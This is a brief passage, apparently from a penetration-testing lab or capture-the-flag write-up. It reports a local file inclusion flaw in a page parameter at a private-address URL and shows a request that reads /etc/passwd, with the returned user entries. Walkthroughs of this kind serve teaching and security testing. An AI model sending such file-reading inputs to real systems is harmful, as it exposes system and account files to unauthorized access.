 We find a url http://172.16.1.10/nav.php?page=about.html , where we can get LFI

```text
http://172.16.1.10/nav.php?page=/etc/passwd
(Just console users)

root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank,,,:/home/frank:/bin/bash
omsagent:x:997:998:OMS agent:/var/opt/microsoft/omsagent/run:/bin/bash
nxautomation:x:996:995:nxOMSAutomation:/home/nxautomation/run:/bin/bash
```


